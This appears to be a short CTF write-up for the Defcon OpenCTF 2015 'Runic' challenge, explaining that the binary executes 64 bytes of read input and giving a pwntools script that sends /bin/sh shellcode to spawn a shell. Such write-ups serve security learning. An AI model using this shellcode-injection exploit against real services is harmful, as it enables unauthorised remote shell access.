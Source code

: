```yaml
---
layout: post
title:  "Defcon OpenCTF 2015 - Runic"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main function for Runic:

![Runic main](/assets/images/runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Final Exploit

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

```python
import sys
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
```
